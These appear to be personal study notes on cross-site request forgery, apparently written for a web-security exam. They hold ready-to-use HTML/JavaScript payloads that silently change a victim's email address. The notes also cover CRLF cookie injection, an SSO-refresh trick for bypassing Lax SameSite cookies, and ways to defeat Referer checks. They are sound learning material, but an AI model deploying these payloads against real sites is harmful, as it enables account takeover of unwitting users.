 ### CSRF

Cause a victim to do an action unintentionally by having them make a request (e.g. `https://example.com/changeemail?email=attacker@email.com`)

**CSRF requires**
- An action to induce
- Solely cookie-based session handling (not using SameSite)
  - Can also work with basic auth or cert-based auth
- No unpredictable parameters (like anti-csrf tokens)

POST request CSRF example:

```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Can be generated using the CSRF PoC generator in burp suite professional
- Select request -> Generate CSRF PoC
- When using Portswigger's exploit server:
  - Paste the payload (without html or body), hit store, then hit deliver

**Common validation issues**
- Switching POST to GET 
  - Use this PoC: `<html><body><script>document.location = '{vulnerable_site}';</script></body></html>`
- Omitting the token
  - PoC above as is
- CSRF token not tied to user session (this happened with UT nonce)
  - Just get a token ourselves and add it to the form when submitting
- CSRF token in request data tied to a non-session-tracking cookie, like another CSRF token
  - If this token can be set or predicted by an attacker, they could include or set the relevant attached CSRF token
  - Can sometimes inject cookies through the URL like so:
    - `?search=test%0d%0aSet-Cookie:%20{cookie}={value}%3b%20SameSite=None` if the parameter ends up in the cookies (something like `lastSearch={search_value}`)
  - Thus, final exploit page would have something like an img or iframe with `<img src='{cookie-injection_URL}'>` along with our valid CSRF token in the POST form
- CSRF token duplicated in a cookie; no server-side record of tokens issued
  - Very similar to previous vuln, requires setting cookie on victim
  - New CSRF token can be anything as long as POST form value matches, doesn't have to be our valid token

If we need to perform a GET request first:

```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20{cookie}={value}%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
    </body>
</html>
```

**SameSite Cookies**
- Strict
  - Never allows cookies to be sent in a cross-site request (iframes, links to other sites, data submission to other sites)
- Lax (default)
  - Sent only on some cross-site requests (clicking on a link or performing GET, HEAD, or OPTIONS request)
    - This means that if data is changed in a GET request (like /email/change?email=attacker@attacker.com), this would still allow CSRF
  - Sent only from top-level navigation (e.g. clicking a link)
    - Won't be sent for embedded requests (like in images, scripts, or iframes)
- None
  - No restrictions
  - Requires Secure flag (only sent over HTTPS)

**Same-site**
- Scheme (HTTPS/HTTP), TLD (.com, .co.uk), and TLD + 1 (google, utexas) must all be the same

**Same-origin**
- Scheme, entire domain, and port must all be the same

**Bypassing Lax Same-Site Cookie Restrictions**
- Need to use a GET request, similar to above
- With some frameworks, can also override the GET method using a URL parmaeter, like `?_method=POST`
  - Similarly, could use `_method = GET` in a POST request form if possible
  - This satisfies both browser-based same-site and framework-based method validation
- If `lax` is enforced by default (by the browser), these cookies only have `Lax` applied 120 seconds after sign-in (to not break SSO functionality)
  - If functionality exists to refresh the session of a user, this can be handy, especially if user won't have to log in again
    - Redirecting the victim to the login page (/login/sso or something) means they leave the payload page, so that won't work
    - Thus, open the sso page in a new tab - refreshes session in background and attack page can exploit 
      - Most browsers block `window.open()` popups, so open a new tab on-click, wait a bit for the refresh, and then submit the form:
      
```
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script>
    window.onclick = () => {
        window.open('{sso_endpoint}');
        setTimeout(() => {
            document.forms[0].submit();
        }, 10000);
    };
</script>
```


**Bypassing Strict Same-Site Cookie Restrictions**
- Can use functionality within the site that results in a secondary request being sent, like a client-side redirect with URL parameter control
  - This isn't possible with server-side redirects; must originate from client (browsers know all)
- Can also use sibling domains for similar purposes (also cross-site websocket hijacking)

**Bypassing Refered-based CSRF Defenses**
- Some apps check to make sure the `Referer` header originates from the same domain
- Omitting the header can sometimes bypass this check
  - `<meta name="referrer" content="never">` - make sure it comes before the script sending the request, lol
- Starting with/containing the domain name can also be bypassed
  - `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack` would satisfy both
  - `Referrer-Policy: unsafe-url` can be included in the payload headers to allow for URL parameters/path within the query (e.g. `?vulnerable-site.com` or `/vulnerable-site.com`), which may be easier than setting up the one-trick-pony above trick
    - Portswigger exploit server doesn't really seem to have an option for setting a domain name, so might be necessary to do this on exam
